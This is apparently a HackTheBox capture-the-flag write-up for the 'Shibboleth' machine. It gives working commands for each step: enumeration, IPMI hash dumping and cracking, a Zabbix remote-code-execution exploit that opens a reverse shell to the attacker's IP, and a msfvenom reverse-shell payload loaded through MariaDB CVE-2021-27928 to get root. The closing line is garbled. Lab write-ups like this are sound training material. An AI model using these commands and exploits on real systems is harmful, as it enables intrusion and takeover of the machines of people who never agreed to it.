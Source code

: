 ```yaml
---
title: Shibboleth - Medium HTB
date: 202-01-27 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /shibboleth
tags: [htb, writeup, medium, Zabbix, CVE, MYSQL, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


# Shibboleth

![Untitled](assets/Shibboleth/LOGO.png)

## **Scanning :**

Lets begin with a nmap to see what ports is opens on the target system : 

```python
> nmap -sS -sV -sC -T4 10.10.11.124 -Pn

#output
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

Add the machine hostname to your `/etc/hosts` file: 

```bash
echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

## **Enumerate the web service :**

use whatweb to see the technologie used by the web site : 

```bash
> whatweb -a 3 shibboleth.htb

#output 
http://shibboleth.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.124], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]
```

Lets lauche a gobuster bf to enumerate the web page :

```bash
> gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t50

#output
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
```

we found nothing interesting so we can try to bf the vhosts to find another web service.

Enumerate the vhost with fuff : 

```bash
> ffuf -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fw 18

#output 
[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 290ms]
    * FUZZ: monitoring

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 292ms]
    * FUZZ: monitor

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 46ms]
    * FUZZ: zabbix
```

all vhosts redirect to the same page ducoup you can add just one of the 3 to your/etc/hosts, and ducoup one comes across a login page of the zabbix software which is a monitoring software for computer park: 

![Untitled](assets/Shibboleth/login.png)

## **Enumerate and exploit zabbix :**

first I want to find the version of zabbix ducoup I find on github repo with tools:

[GitHub - freeworkaz/zabbix_test: this is some scripts for pentesting zabbix server](https://github.com/freeworkaz/zabbix_test)

You must use the zabbix_version_detect.py script here the code after midification:

```python
"""
This script is for testing zabbix version
by version of the docs on the logon page
"""

import urllib2  
import re
from bs4 import BeautifulSoup  

zab_page='http://monitor.shibboleth.htb/index.php' 
page=urllib2.urlopen(zab_page)
soup = BeautifulSoup(page, 'html.parser')
for link in soup.findAll('a', attrs={'href': re.compile("documentation")}):
    version=link.get('href')

parts=re.split('/', version)

a=''.join (parts[4:5])
print "zabbix version is",a
```

run it see the version : 

```python
> python2 zabbix_version_detect.py 
zabbix version is 5.0
```

Lets rescan the target but that time with a udp scan : 

```python
> nmap -sU -T4 -Pn 10.10.11.124 -n --max-retries 1

623/udp open  asf-rmcp
```

after looking for information on port 623 I came across the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) page that my well informed on the subject.

Lets see the version of IPMI : 

```python
> nmap -sU --script ipmi-version -p 623 10.10.11.124

623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

lets dump the admin hash with [ipmipwner](https://github.com/c0rnf13ld/ipmiPwner) : 

```python
> git clone https://github.com/c0rnf13ld/ipmiPwner

#install requirements : 
> ./requirements.sh

#dump admin hash
>./ipmipwner.py --host 10.10.11.124

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002030000ebc053f6d5ef225d169dc8006bde6c16e8e71d82f8ff1cd441422c4f763f3348a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$a8e600ba41d6a1e70d9636a223af3374fb287b7b
```

Use john to crack the hash : 

```python
> john zabbix_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (?)     
1g 0:00:00:01 DONE (2023-12-24 11:30) 0.7462g/s 5526Kp/s 5526Kc/s 5526KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And connect your self on the app : 

![Untitled](assets/Shibboleth/pannel_admin.png)

the next step is too gain reverse shell, I found a exploit who do that : 

https://www.exploit-db.com/exploits/50816

Downlaod it with searchsploit : `searchsploit -m 50816.py`

Run ti and gain your reverse shell : 

```python
#run listener : 
> pwncat-cs :9001

#run the exploit you should by patient...
> python 50816.py http://monitor.shibboleth.htb/ "Administrator" "ilovepumkinpie1" 10.10.16.9 9001

[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                                                                                                                                                                 
[+] the payload has been Uploaded Successfully                                                                                                                                                                                              
[+] you should find it at http://monitor.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33618                                                                                                                                    
[+] set the listener at 9002 please...                                                                                                                                                                                                      
[?] note : it takes up to +1 min so be patient :)                                                                                                                                                                                           
[+] got a shell ? [y]es/[N]o: y                                                                                                                                                                                                             
Nice !
```

You can can move lateraly on the user ipmi-svc, for that reuse the password of the administrator hash. 

## **Privileges Escalation Exploit mysql CVE:**

After lot of enumeration we found the password of the db stored in the `/etc/zabbix/zabbix_server.conf`

```python
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

log your self on the db and start the enumeration : 

```python
#view the version of mysql
select version();
```

if we look for a known vuln on the internet there is a way to increase our privileges from mysql.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

So step 1 on create the payload and start listener : 

```python
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f elf-so -o CVE-2021-27928.so

> nc -lnvp 1234
```

Now upload it with your pwncat session : 

```python
> upload CVE-2021-27928.so
```

Final exploit the mysql db : 

```python
#mysql shell 
> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

look your listner: 

![Untitled](assets/Shibboleth/root.png)

original deaths from the beginning to the end I hope she will serve me for Zephyr ! 😁
